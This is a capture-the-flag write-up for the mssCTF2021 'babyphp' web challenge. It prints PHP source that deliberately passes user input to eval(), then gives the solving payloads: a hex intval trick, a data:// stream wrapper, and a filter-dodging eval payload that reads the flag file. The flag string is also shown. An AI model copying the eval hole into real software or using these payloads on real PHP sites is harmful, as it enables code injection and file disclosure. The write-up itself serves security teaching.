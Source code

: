 ## mssCTF2021

## Quals Web

### <font color='orange'>babyphp</font>

+++

```php
<?php
error_reporting(0);
highlight_file(__FILE__);

$mss1 = $_POST['level1'];
$mss2 = $_POST['level2'];
$mss3 = $_POST['level3'];

if (intval($mss1) < 2021 && intval($mss1 + 2) > 2022) {

    $mss4 = file_get_contents($mss2,'r');
    if ($mss4 === "mssCTF is interesting!") {
        
        if (!preg_match("/[0-9]|\`|\^|\\$|\*|\%|\~|\+|\{|\}|\'|\\\"|\,|\<|\>|\.|\/|\?/i", $mss3)) {
            echo "Regex is so wonderful!";
            echo "<br/>";
            eval($mss3);
        }

        else {
            echo "Success is near!";
            echo "<br/>";
        }
    }

    else {
        echo "Do you like PHP?";
        echo "<br/>";
    }
}

else {
    echo "Level1 is a babe trick,try again!";
    echo "<br/>";
}
Regex is so wonderful!
<?php
$flag = "xdsec{5619454e-16a4-425f-be7d-7b8ada9808b9}";
```

**level1**

当`intval`里的是一个字符串时直接返回0，所以第一个判断直接为0了
而第二个因为进行了加减，会先进行进制转换

所以构建一个十六进制的就可以
payload

```
level1=0x1011
```

**level2**

```php
$mss4 = file_get_contents($mss2,'r');
$mss4 === "mssCTF is interesting!"
```

$mss2是一个字符串，而`file_get_contents`需要的是一个文件，如果直接传**mssCTF is interesting!**会报错

所以需要**data://**协议，讲这句话转换为数据流，就可使`file_get_contents`正常运作

所以构造payload

```php
mss2=data://text/plain,mssCTF is interesting!
```

**level3**

这个就相对简单了，就是读取文件而已，过滤了一些字符，但问题不大

payload

```php
highlight_file(next(array_reverse(scandir(getcwd()))));
```
















